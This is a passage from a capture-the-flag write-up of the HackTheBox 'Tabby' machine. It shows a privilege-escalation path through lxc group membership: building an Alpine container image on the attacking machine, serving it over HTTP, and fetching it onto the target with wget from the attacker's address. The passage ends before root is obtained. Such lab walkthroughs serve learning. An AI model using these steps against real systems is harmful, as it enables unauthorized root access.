 
But if we run `su ash` on the target and supply the password we get a shell as `ash`:

![ash-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/ash-21.png)


### Ash


If we take a look at the output of the `id` command, we will notice that our user is a part of the `lxc` group, which is used to allow users to create and manage Linux containers. This can exploited by creating a root-level privilege container from the current file system and interacting with it, executing /bin/sh and therefore starting a root shell. Here is the easiest way to exploit this. 


First, on our Kali machine, we need to clone and build an image of the Alpine distro from a repository on Github:

```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
```

This should have created a couple of tar archvies in the working directory:

![archives-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/archives-22.png)


The next step is to transfer one of them to the target machine, we can do this with a simple python web server:

```bash
python3 -m http.server 80
```

Then, from the target in `ash`'s home directory, download the file using:

```bash
cd ~
wget http://10.10.14.54/alpine-v3.19-x86_64-20231222_0748.tar.gz
```
